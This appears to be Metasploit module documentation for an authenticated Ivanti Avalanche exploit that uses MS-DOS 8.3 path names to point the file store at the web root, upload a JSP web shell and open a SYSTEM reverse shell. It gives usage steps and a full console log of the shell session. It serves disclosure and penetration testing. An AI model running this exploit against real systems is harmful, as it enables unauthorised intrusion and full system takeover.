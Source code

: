 ## Vulnerable Application

For versions of Ivanti Avalanche below `v6.4.0.186`, an authenticated administrator
can change the default path for the Central FileStore via the Configuration Settings pane.
While the default path is set to `C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files`,
Ivanti Avalanche restricts the path from being set to folders within the `Windows` and
`Program Files` directories. These restrictions do not account for MS-DOS (8.3) path
names, so this naming convention can be used to set the Central FileStore path to
the web root of the application. This module leverages this vulnerability to
upload a JSP web shell and gain RCE as `NT AUTHORITY\SYSTEM`.

### Installation Instructions

The software requires a version of MSSQL server to be installed. The installation
instructions use MSSQL Server 2012, but 2017 worked for my setup. Ensure that
`SQL Server and Windows Authentication Mode` is selected as the default for
server authentication. This can either be done at installation or via
SQL Server Management Studio.

1. Open SQL Server Management Studio and connect to the instance
2. Right click on the instance and select `Properties`
3. Click the `Security` page
4. Underneath `Server Authentication`, select `SQL Server and Windows Authentication Mode` and `Ok`

Instructions for installing Ivanti Avalanche can be found [here](https://forums.ivanti.com/s/article/Best-Known-Method-for-installing-Avalanche-6-x-using-MSSQL-Server-2008-R2-Express-DB-or-2012-Express-Advanced?language=en_US)

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload`
4. Do: `set USERNAME <uname>`
5. Do: `set PASSWORD <pass>`
6. Do: `set RHOST <ip>`
7. Do: `run`
8. You should get a shell as `NT AUTHORITY\SYSTEM`.

## Options

### USERNAME

An admin user with which to log into the software

### PASSWORD

Password belonging to admin user

## Scenarios

### Ivanti Avalanche v6.3.4.153 - Windows 10 x64

```
msf6 > use exploit/windows/http/ivanti_avalanche_filestoreconfig_upload
[*] No payload configured, defaulting to generic/shell_reverse_tcp
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set rhost 192.168.140.150
rhost => 192.168.140.150
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > options

Module options (exploit/windows/http/ivanti_avalanche_filestoreconfig_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password to log in with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.140.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics
                                         /using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /AvalancheWeb    yes       The URI of the Example Application
   USERNAME   amcadmin         yes       User name to log in with
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.140.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ivanti_avalanche_filestoreconfig_upload) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Original FileStore config path: 'C:\Program Files\Wavelink\Avalanche\EnterpriseServer\centralfilestore\files'
[*] Changing FileStore config path to 'C:\PROGRA~1\Wavelink\AVALAN~1\Web'
[+] Successfully uploaded 'LWRrxDXWxhbz.jsp'
[*] Attempting to restore config path
[!] Tried to delete webapps/LWRrxDXWxhbz.jsp, unknown result
[*] Command shell session 1 opened (192.168.140.1:4444 -> 192.168.140.150:50249) at 2023-05-08 14:27:58 -0500
[!] Failed to restore the FileStore config path to its original path. Please manually restore FileStore config via Tools -> Central FileStore -> Configurations.


Shell Banner:
Microsoft Windows [Version 10.0.19041.630]
-----


C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>
C:\Program Files\Wavelink\Avalanche\Web>whoami
whoami
nt authority\system

C:\Program Files\Wavelink\Avalanche\Web>^C
Abort session 1? [y/N]  y

[*] 192.168.140.150 - Command shell session 1 closed.  Reason: User exit
```
